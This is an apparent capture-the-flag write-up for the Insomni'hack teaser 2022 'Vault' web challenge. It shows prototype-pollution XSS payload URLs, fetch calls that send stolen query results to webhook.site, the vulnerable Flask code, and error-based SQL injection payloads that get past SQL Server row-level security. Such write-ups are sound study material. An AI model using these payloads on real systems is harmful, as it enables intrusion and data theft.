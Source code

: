 ```yaml
---
title: Insomni'hack teaser 2022 – Vault
date: '2022-01-31'
draft: false
authors: ['thebish0p']
tags: ["Insomni'hack teaser 2022", 'Web', 'Prototype Pollution', 'SQLi', 'Error Based Injection']
summary: 'Prototype pollution which allows to run arbitrary js in admin context and retrieve the flag through the sql injection with an error based injection.'
---
```


## Vault

> by clZ
>
> A competing group has created a so-called secure Vault where people can store their secrets. We have serious doubts on their capacity to actually provide such a service. Could you show everyone that their solution is not as secure as they think?
>
> The Vault is available [here](http://vault.insomnihack.ch:5000/).
>
> They are so confident in their solution that they also released their [source code](https://static.insomnihack.ch/media/Vault_191c4ba6dc394e5713771ac4808a02330fd9583a-9516bb402ba3ca3401458c8d8e08d112cde7a9f7e9a5a9b349dc9ac403e1b48f_RR5HK9s.tgz).

We start by checking the web page and notice that there is a login, register and report link section. So my first thought was trying to find an XSS and report a link in order to grab an admin’s cookie for example but we had an issue we can’t register:

![Registration Error](/static/images/insomnihack-teaser-2022/registration_error.png)

We continue by checking the source code and manage to find a JavaScript Protocol Pollution bug that can lead to an XSS `http://vault.insomnihack.ch:5000/?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script#page=secrets` as shown below:

![Alert XSS](/static/images/insomnihack-teaser-2022/xss_alert_1.png)

Time to try to get a callback from the admin through the report link function so we just add `fetch("https://webhook.site/388bc797-594f-4945-a407-5137e40ced43")` to our payload, report it and get a callback:

![First Callback](/static/images/insomnihack-teaser-2022/first_callback.png)

We noticed at this point that cookies on the site are `httpOnly` so we need something else:

```python
@app.route('/api/report', methods=['POST'])
def contact():
    url = request.form["url"]
    pattern = re.compile("^https?:\/\/")
    if len(url) > 0 and pattern.match(url):
        try:
            from selenium import webdriver
            from selenium.webdriver.common.keys import Keys
            from selenium.webdriver.chrome.options import Options
            import time
            session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
            adminsession = dict()
            adminsession["admin"] = 1
            adminsession["username"] = "admin"
            adminsession["password"] = os.environ.get("ADMIN_PWD")
            session_cookie = session_serializer.dumps(dict(adminsession))
            chrome_options = Options()
            chrome_options.headless = True
            chrome_options.add_argument('--no-sandbox')
            driver = webdriver.Chrome("/app/chromedriver", options=chrome_options)
            driver.set_page_load_timeout(30)
            driver.get("http://" + os.environ.get("VHOST") + "/")
            time.sleep(1)
            driver.add_cookie({"name": "session", "value":session_cookie,"httpOnly": True})
            driver.get(url)
            time.sleep(30)
            driver.close()
            return {'status':'OK'}
        except:
            return {'status':'KO','msg':'Error checking page'}
    return {'status':'KO','msg':'Invalid URL'}
```

We recheck the `app.py` file and notice that the `username` parameter in `/api/stats` is prone to SQL injection.

```python
@app.route('/api/stats')
def stats():
    if not "admin" in session or session["admin"] != 1:
        return {'status':'KO', 'msg': 'You are not admin'}
    else:
        try:
            conn_str = ("Driver={ODBC Driver 17 for SQL Server};"
                "Server=db,1433;"
                "Database=Vault;"
                "UID=" + session["username"] + ";"
                "PWD=" + session["password"])
            conn = pyodbc.connect(conn_str)
            cursor = conn.cursor()
            sql = "SELECT inserttime FROM dbo.Stats WHERE username = '" + request.args.get("username") + "'"
            cursor.execute(sql)
            res=cursor.fetchall()
            ret=[]
            for row in res:
                ret.append({'inserttime':row[0]})
            cursor.close()
            conn.close()
            return {'status':'OK','results':ret}
        except:
            return {'status':'NOK'}

```

We continue by adding an injection to our payload `fetch("/api/stats?username=admin' union select 123 --").then(x => x.text()).then(x=>{location='https://webhook.site/32903bb4-075a-4196-933d-2d558ae4a216/?secrets='+btoa(x)})` but we base64 it and then eval the decoded value in order for it to work : `http://vault.insomnihack.ch:5000/?__proto__[url][]=data:,eval(atob(%27ZmV0Y2goIi9hcGkvc3RhdHM/dXNlcm5hbWU9YWRtaW4nIHVuaW9uIHNlbGVjdCAxMjMgLS0iKS50aGVuKHggPT4geC50ZXh0KCkpLnRoZW4oeD0%2be2xvY2F0aW9uPSdodHRwczovL3dlYmhvb2suc2l0ZS8zMjkwM2JiNC0wNzVhLTQxOTYtOTMzZC0yZDU1OGFlNGEyMTYvP3NlY3JldHM9JytidG9hKHgpfSk7%27))//&__proto__[dataType]=script#page=secrets` and get a callback as shown below:

![successful_injection](/static/images/insomnihack-teaser-2022/successful_injection.png)

After several failed attempts of selecting the flag from the database we notice that `install.sql` has a `SecurityPredicate` which prevents access from different users to specific rows:

```sql
DROP SECURITY POLICY IF EXISTS dbo.SecurityPolicy;
GO
DROP FUNCTION IF EXISTS dbo.SecurityPredicate;
GO
CREATE FUNCTION dbo.SecurityPredicate
(
  @UserName nvarchar(32)
)
RETURNS TABLE
WITH SCHEMABINDING
AS RETURN
(
  SELECT ok = 1 WHERE USER_NAME() = @UserName
);
GO

CREATE SECURITY POLICY dbo.SecurityPolicy
ADD FILTER PREDICATE dbo.SecurityPredicate(UserName)
ON dbo.Vault WITH (STATE = ON, SCHEMABINDING = ON);
GO
```

After some researching, I find this article named [Beware of Side-Channel Attacks in Row-Level Security in SQL Server 2016](https://www.mssqltips.com/sqlservertip/4379/beware-of-sidechannel-attacks-in-rowlevel-security-in-sql-server-2016/) explaining how to bypass this Predicate by causing an error like a zero division error so we tried to cause an error while trying to bruteforce each character of the flag.

Unfortunately, the CTF ended at this time and didn't manage to finish the challenge on time but the injection required is shown below :

```sql
select 1 from dbo.Vault where username='secret' and secret_name='flag' and 1/(ascii(substring(secret_value,1,1))-GUESS)=1
```

Finally what needs to be done is just looping through the characters of secret_value and sending for each one this payload :

```js
fetch('/api/stats?username=${encodeURIComponent(' union select 1 from dbo.Vault where username='secret' and secret_name='flag' and 1/(ascii(substring(secret_value,${pos},1))-GUESS)=1;-- -')});`
```
